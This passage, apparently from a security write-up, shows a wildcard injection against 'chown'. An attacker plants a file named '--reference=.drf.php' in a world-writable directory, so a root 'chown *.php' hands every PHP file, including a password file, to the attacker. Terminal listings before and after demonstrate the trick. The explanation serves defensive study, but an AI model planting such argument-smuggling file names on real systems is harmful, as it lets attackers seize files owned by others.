 First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

```none
[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php
```

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

```none
[root@defensecode public]# chown -R nobody:nobody \*.php
```

Let's see who owns files now...

```none
root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php
```
